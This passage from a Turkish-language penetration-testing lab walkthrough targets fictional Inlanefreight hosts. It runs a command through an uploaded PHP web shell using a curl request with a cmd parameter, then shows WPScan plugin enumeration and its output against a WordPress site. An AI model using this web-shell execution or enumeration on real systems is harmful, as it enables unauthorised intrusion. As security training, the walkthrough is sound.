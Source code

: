 Hostun IP adresini kontrol ettiğimizde, IP adresi internal ağ kapsamında olmadığından Inlanefreight iç ağına girmiş gibi görünmüyoruz. Bu sadece bağımsız bir web sunucusu olabilir, bu yüzden devam edeceğiz.

```shell-session
M1R4CKCK@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3
```

Buradan, hassas verileri arayarak hostu daha fazla numaralandırabilir, diğer iki bulguyu not edebiliriz: HTTP Verb Tampering ve Unrestricted File Upload, ve bir sonraki host'a geçebiliriz.


## ir.inlanefreight.local

Listemizdeki bir sonraki hedef, şirketin WordPress ile barındırılan Investor Relations Portalı olan http://ir.inlanefreight.local. Bunun için Attacking Common Applications modülünün WordPress - Discovery & Enumeration bölümüne başvurabiliriz. WPScan'i çalıştıralım ve tüm pluginleri listelemek için -ap bayrağını kullanarak neleri listeleyebileceğimize bakalım.

```shell-session
[!bash!]$ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] b2i-investor-tools
 | Location: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/
 | Latest Version: 1.0.5 (up to date)
 | Last Updated: 2022-06-17T15:21:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
```